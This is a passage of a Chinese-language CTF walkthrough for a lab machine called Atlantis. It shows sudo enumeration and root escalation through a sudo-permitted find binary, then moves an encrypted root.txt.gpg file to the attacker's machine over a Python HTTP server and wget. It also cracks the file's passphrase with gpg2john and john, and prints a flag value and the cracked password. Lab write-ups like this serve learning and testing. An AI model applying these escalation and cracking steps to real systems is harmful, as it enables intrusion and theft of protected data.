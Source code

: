 ### 信息搜集

```bash
tridente@Atlantis:~$ sudo -l
[sudo] password for tridente: 
Matching Defaults entries for tridente on Atlantis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tridente may run the following commands on Atlantis:
    (root) /home/tridente/find
```

### 利用特权+find提权

![image-20240322153253466](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403221609590.png)

https://gtfobins.github.io/gtfobins/find/

尝试利用：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403221609591.png" alt="image-20240322153704719" style="zoom: 50%;" />

```apl
f506a6ee37275430ac07caa95914aeba
```

### john爆破gpg密码获取flag

将加密的 root 文件下载到本机：

```bash
python3 -m http.server 8888
wget http://10.160.78.89:8888/root.txt.gpg
```

尝试使用`john`爆破一下：

```
gpg2john root.txt.gpg > flag_hash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
john flag_hash -w=/usr/share/wordlists/rockyou.txt
```

(virtualbox的kali没搞过这个字典）

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403221609592.png" alt="image-20240322160453875" style="zoom:50%;" />

爆破出来了密码：

```apl
arthur
```

使用这个密码对`gpg`文件进行解密：

```bash
gpg root.txt.gpg
```
